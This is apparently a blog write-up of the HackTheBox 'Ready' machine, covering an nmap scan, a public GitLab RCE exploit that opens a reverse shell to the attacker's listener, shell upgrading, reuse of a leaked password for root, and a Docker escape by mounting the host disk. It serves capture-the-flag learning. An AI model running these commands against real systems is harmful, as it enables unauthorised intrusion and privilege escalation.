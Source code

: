 ```yaml
---
title: "📦 HTB - Ready"
date: 2021-03-20 10:00:00
tags: ["htb", "writeup"]
author: "0xNinja"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
cover:
    image: box.png
---
```


> Cool box, maybe too easy for a medium? Got reverse shell in minutes, but stuck for root's password for hours 😅

## TL;DR

Gitlab RCE, get reverse shell. Privesc with cleartext root password, escape Docker to own the box.

## Footholds

### nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-14 16:00 UTC
Nmap scan report for 10.10.10.220
Host is up (0.035s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.36 seconds
```

We get an NGINX service running on port `5080`, and we know there is a GitLab on it. Let's check it out!

## Entrypoint

![gitlab.png](gitlab.png)

First thing I did was creating an account to see what's up with this GitLab. Unfortunately, there is no open projects we can mess with:

![projetcs.png](gitlab_projects.png)

A common reflex here is to check the version of the service, let's go to `/help`:

![version.png](gitlab_version.png)

This seems very interesting for us! What do we have for this version?

![vulns.png](gitlab_vulns.png)

Well, we can see there are a lot of exploits in the wild. Let's use the first we find: https://github.com/dotPY-hax/gitlab_RCE

```sh
python gitlab_rce.py http://ready.htb:5080 10.10.14.28
```

We follow the instructions, and create a listener with netcat:

```
nc -vlnp 42069 
Connection from 10.10.10.220:39478
bash: cannot set terminal process group (509): Inappropriate ioctl for device
bash: no job control in this shell
git@gitlab:~/gitlab-rails/working$
```

And we got a reverse shell!

## User

Very simple user here:

```
git@gitlab:~$ cat /home/dude/user.txt
```

### Upgrade shell

We want a good shell here:

```
git@gitlab:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
ninja@null $ stty raw -echo; fg
git@gitlab:~$
```

![shell.png](shell.png)

We want to get root now.

## Root

The classical privesc enumerators, like `linenum`, `linpeas` or `lse` are telling us we are in a Docker container. We will firstly try to get root in the container in order to escape from it later.

### Get root in container

Running the enumeration scripts, we get some passwords on the system:

![passwords.png](passwords.png)

Of course, there is no way a GitLab SMTP password could be root's as well, right?

![glissade.png](glissade.png)

![](https://media.giphy.com/media/3oEhmGVYRFGFLDYSWI/giphy.gif)

### Escape the container

Now that we are root in the container, it is pretty easy to escape:

```
mkdir /tmp/cheh
mount /dev/sda2 /tmp/cheh
ls /tmp/cheh
cat /tmp/cheh/root/root.txt
```

![root.png](root.png)

Reference: https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#i-own-root

![Rooted](rooted.png)

